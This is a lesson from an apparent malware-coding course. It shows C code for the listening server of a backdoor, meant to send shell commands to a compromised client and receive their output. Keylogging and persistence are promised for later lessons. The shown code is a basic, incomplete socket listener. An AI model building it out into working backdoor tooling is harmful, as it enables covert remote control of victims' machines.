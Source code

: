 ```yaml
---
title: Coding the server
course: code_malware
section: "Executing shell commands"
layout: lesson
---
```


In this lesson we are going to jump into our different program (which would be
the server). Even though we haven't finish our backdoor, we are going to finish
the main section which is execution of the commands, right now, with our
current program we can do something similar as manipulating a remote "cmd"
shell.

But before we keep adding functions to our program (such as keylogging and
persistence) we need to see if our current code works, to do so, we'd need to
code the server part which is going to listen for the connection and send
command and receive their outputs, so let's start working in it.

Create a new file called, for example, "_server.c_" and then import all the
needed libraries, resulting the following code:

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>
```

Now we have included all the necessary libraries to set up our clients/server
connection. Note that the server will only have one function which is going to
be the main function, to create it simply type:

```c
int main() {
}
```

In the "_main_" function, let's create all the variables we'll need. Which is
going to be the socket and the client socket:

```c
int sock, client_sock;
```

The reason why we need two sockets, is because we are the server, which means we
will need our own socket "`sock`" and once the client establishes the connection
with us, we will also need to store the client socket, that's why we are
creating two socket objects.

The second thing we are going to need is the "`buffer`", the "`response`" (which
needs to have the exact same size of the "`total_response`" variable that is in
our client). We also need to create two structures called "`server_address`"
(which is going to be our own address) and "`client_address`". These are the
already declared variables:

```c
int sock, client_socket;
char buffer[1024];
char response[18384];
struct sockaddr_in server_address, client_address;
```

In our backdoor, we only created one socket object which was the target socket,
but in this case, we need to create two because we are the server.

We will also going to need two different integers:

```c
int i = 0;
int optval = 1;
```

And the last thing we will need, is the size of the client socket, to specify
it, simply type:

```c
socklen_t client_length;
```

The first thing we are going to create after defining our variables, is going to
be the socket, so we perform the same action as we did in our backdoor which
would be:

```c
sock = socket(AF_INET, SOCK_STREAM, 0);
```

And now, we need to set some of the socket options, and we will use the "`optval`"
variable for that. So, in order to check whether our socket object creation
worked, we are going to use an if statement:

So, in order to check whether our socket object creation worked, we are
going to use an if statement:

```c
if (setsockopt(sock, SOL_SOCKET, SO_REUSEADDR, &optval, sizeof(optval)) < 0) {
  printf("Error setting TCP Socket Options!\n");
  return 1;
}
```

If the creation of our socket doesn't work (the statement check by the if) we
return "1" which means we exit the main function (as it is an int).

If the creation was successful, we would continue with the execution of our
program. So we need to perform the same thing that we performed previously, so
the first thing we would need to do is to set our server address with all of its
needed parameters:

```c
server_address.sin_family = AF_INET;
server_address.sin_addr.s_addr = inet_addr("THE SERVER IP ADDRESS");
server_address.sin_port = htons(50005); // Same port specified in the client
```

The next thing we need to do, which we haven't actually performed inside the
backdoor (because this is a function the server must perform) which is binding
the server IP and the server port, we can do that using the "_bind_" function as
shown below:

```c
bind(sock, (struct sockaddr *) &server_address, sizeof(server_address));
```

The bind's parameters are:
  * Our socket (`sock`)
  * A sockaddr structure, pointing to the server address (`(struct sockaddr) * &server_address`)
  * The size of the server address (`sizeof(server_address)`)

You may find the "`bind`" function similar to the "`connect`" one inside of the
backdoor. And now, we need to listen for the incoming connections, so we would
use the "`listen`" function.

```c
listen(sock, 5);
```

This function takes two arguments, the socket we are listening for connections,
and the amount of connections we want to accept. In this case, 5.

The next thing is going to be the client length, its value will be the size of
the client address, so we can specify that like this:

```c
client_length = sizeof(client_address);
```

And the last thing before we can stablish the connection, will be to accept the
connection request and we can do that by simply calling the accept function and
storing the result inside the client socket:

```c
client_socket = accept(sock, (struct sockaddr *) &client_address, &client_length);
```

As the "`accept`" function will return the client socket, we want to store it
into "`client_socket`", as we will use that variable later for communicating the
server and the client.

This is how our server code looks like so far:

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>

int main() {
  int sock, client_socket;
  char buffer[1024];
  char response[18384];
  struct sockaddr_in server_address, client_address;
  int i = 0;
  int optval = 1;
  socklen_t client_length;

  sock = socket(AF_INET, SOCK_STREAM, 0);

  if (setsockopt(sock, SOL_SOCKET, SO_REUSEADDR, &optval, sizeof(optval)) < 0) {
    printf("Error Setting TCP Socket Options!\n");
    return 1;
  }

  server_address.sin_family = AF_INET;
  server_address.sin_addr.s_addr = inet_addr("192.168.1.6");
  server_address.sin_port = htons(50005);

  bind(sock, (struct sockaddr *) &server_address, sizeof(server_address));
  listen(sock, 5);
  client_length = sizeof(client_address);
  client_socket = accept(sock, (struct sockaddr *) &client_address, &client_length);
}
```
